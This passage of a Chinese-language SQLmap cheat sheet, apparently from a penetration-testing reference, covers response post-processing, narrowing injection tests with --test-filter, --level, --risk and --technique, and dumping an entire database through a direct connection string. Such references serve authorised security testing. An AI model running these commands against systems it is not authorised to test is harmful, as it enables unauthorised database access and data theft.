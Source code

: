 后处理脚本用于在从目标应用程序接收到响应数据后对其进行修改。这对于解码响应、提取特定数据或其他响应修改非常有用。

```ps1
--postprocess=postprocess.py  使用给定的脚本（响应）进行后处理
```

## 减少请求数量

当您想专注于特定类型的 SQL 注入技术和负载时，`--test-filter` 参数非常有用。与其测试 SQLMap 所有的负载范围，您可以限制为匹配特定模式的那些负载，使过程更加高效，尤其是在大型或缓慢的 Web 应用程序中。

```ps1
sqlmap -u "https://www.target.com/page.php?category=demo" -p category --test-filter="Generic UNION query (NULL)"
sqlmap -u "https://www.target.com/page.php?category=demo" --test-filter="boolean"
```

默认情况下，SQLmap 以级别 1 和风险 1 运行，这会产生较少的请求。无目的地增加这些值可能会导致大量耗时且不必要的测试。

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --level=1 --risk=1
```

使用 `--technique` 选项指定要测试的 SQL 注入技术类型，而不是测试所有可能的技术。

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --technique=B
```

## 没有 SQL 注入的 SQLmap

即使没有利用 SQL 注入漏洞，使用 SQLmap 仍然可以在各种合法用途中非常有用，特别是在安全评估、数据库管理和应用程序测试方面。

您可以使用 SQLmap 通过其端口而非 URL 访问数据库。

```ps1
sqlmap -d "mysql://user:pass@ip/database" --dump-all
```

## 参考文献

* [#SQLmap protip - @zh4ck - March 10, 2018](https://twitter.com/zh4ck/status/972441560875970560)
* [Exploiting Second Order SQLi Flaws by using Burp & Custom Sqlmap Tamper - Mehmet Ince - August 1, 2017](https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/)